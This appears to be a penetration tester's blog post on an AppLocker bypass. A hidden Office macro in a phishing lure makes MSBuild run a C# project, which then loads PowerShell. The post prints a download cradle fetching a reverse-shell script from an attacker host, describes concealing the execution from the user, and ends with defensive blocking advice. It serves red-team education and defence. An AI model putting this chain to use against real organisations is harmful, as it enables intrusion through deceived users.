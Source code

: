 ```yaml
---
layout: post
title: MSBuild AppLocker Bypass Phishing Payload
published: true
---
```

![msbuild]({{ site.url }}/images/msbuild-csproj.png){: .center-image }

### With regular external vulnerability scans and (hopefully) pentration tests being undertaken, the perimeter is typically not the easy route into an organisation.

People click, and so simulated phishing campaigns and user awareness training are extremely important. However, there can never be complete assurance against credential divulgence or execution of malicious code, so it is critical that organisations implement a multi-layered "defence in depth" strategy. Application whitelisting is an important component of such a strategy, and is an effective means of ensuring that only approved applications can run.

AppLocker is a commonly used whitelisting technology and is built into Windows. The default AppLocker rules for Windows 10 are listed below.

![rules]({{ site.url }}/images/applocker-default-rules.png){: .center-image }

Since Powershell has gained recognition for being the attackers language of choice, many organisations are [increasingly] additionally blocking it. However, blocking powershell.exe is often not sufficient and there are many methods by which PowerShell can be instantiated to send a reverse shell reaching out of the organisation to an attacker.

The post will document one such method, with the "misplaced trust binary" MSBuild.exe. In this scenario, the company has enabled AppLocker with default rules and has also blocked Powershell.

![rules]({{ site.url }}/images/applocker-rules.png){: .center-image }

We can pass a ".csproj" (Visual Studio .NET C# Project file) to MSBuild and have it execute C# and instantiate a Powershell runspace using the System.Management.Automation.dll assembly. The powashell.csproj file below by Casey Smith ([@SubTee](https://twitter.com/subtee)) builds upon Jared Atkinson's ([@jaredcatkinson](https://twitter.com/jaredcatkinson)) and Justin Warner's ([@sixdub](https://twitter.com/sixdub)) work.

<script src="https://gist.github.com/egre55/7a6b6018c9c5ae88c63bdb23879df4d0.js"></script>

This executes the second (and final) stage of the payload via PowerShell 3.0+ download cradle:

`pipeline.Commands.AddScript("IEX (iwr 'http://10.10.10.10/shell.ps1')");`

Shell.ps1:

<script src="https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3.js"></script>

Good. Now we need a means of delivering the project file and executing MSBuild. The macro below will do just this.

<script src="https://gist.github.com/egre55/563159175f8d6c1d31d7f3af77357549.js"></script>

The WindowType parameter of the Shell function has been set to `vbHide` in order to avoid calling attention to our activities. Now, in order to stand a chance of the macro being executed, we need to dress the document appropriately.

John Lambert ([@JohnLaTwC](https://twitter.com/johnlatwc)) regularly shares interesting phishing lures and payloads, if you need inspiration for simulated phishing campaigns ;) . I find the "Document created in newer/older Office version" lures especially convincing. John has put together [this](https://t.co/OwH28ltngy) compendium of macro based lures, which is great for educating users about the different techniques attackers use.

FailedDeliveryNotification.docx:



Now that our "malicious" document has been created we can test it out.

Once the user opens the document and enables macros, the powashell.csproj is downloaded for MSBuild to execute, which in turn downloads and executes the Powershell reverse shell one-liner. All completely invisible to the user.

![rules]({{ site.url }}/images/shell.png){: .center-image }

We can see that this payload is also an effective means of bypassing PowerShell Contrained Language mode.

This is not a particularly advanced payload as the .csproj is written to disk, and no attempt was made to obfuscate any part of the payload.

Hopefully, this examples highlights the danger of "misplaced trust" binaries such as MSBuild. Companies should block their use unless explicitely required for certain users (e.g. developers). Oddvar Moe ([@Oddvarmoe](https://twitter.com/oddvarmoe) maintains an excellent [list](https://github.com/api0cradle/UltimateAppLockerByPassList) of AppLocker bypass techniques, which is a good list of "misplaced trust" binaries that IT departments should consider blocking.

If possible, companies should also block macros for users who don't need this functionality. Additionally, if a company has decided to block PowerShell using Application Whitelisting, then the following files should be added to the blacklist.

```C:\>dir /B /S powershell.exe /S system.management.automation.dll
C:\Windows\assembly\GAC_MSIL\System.Management.Automation\1.0.0.0__31bf3856ad364e35\System.Management.Automation.dll
C:\Windows\Microsoft.NET\assembly\GAC_MSIL\System.Management.Automation\v4.0_3.0.0.0__31bf3856ad364e35\System.Management.Automation.dll
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe
C:\Windows\WinSxS\amd64_microsoft-windows-powershell-exe_31bf3856ad364e35_10.0.14393.0_none_968a6a2f18e547eb\powershell.exe
C:\Windows\WinSxS\msil_system.management.automation_31bf3856ad364e35_1.0.0.0_none_6340379543bd8a03\System.Management.Automation.dll
C:\Windows\WinSxS\msil_system.management.automation_31bf3856ad364e35_10.0.14393.0_none_f2bad6783ea6eb6a\System.Management.Automation.dll
C:\Windows\WinSxS\wow64_microsoft-windows-powershell-exe_31bf3856ad364e35_10.0.14393.0_none_a0df14814d4609e6\powershell.exe```

However, there are multiple methods an attacker could use to instantiate a Powershell runspace, for example by downloading a custom binary. In which case, Defenders could respond by...

... and so the back and forth attacker/defender dance continues :)





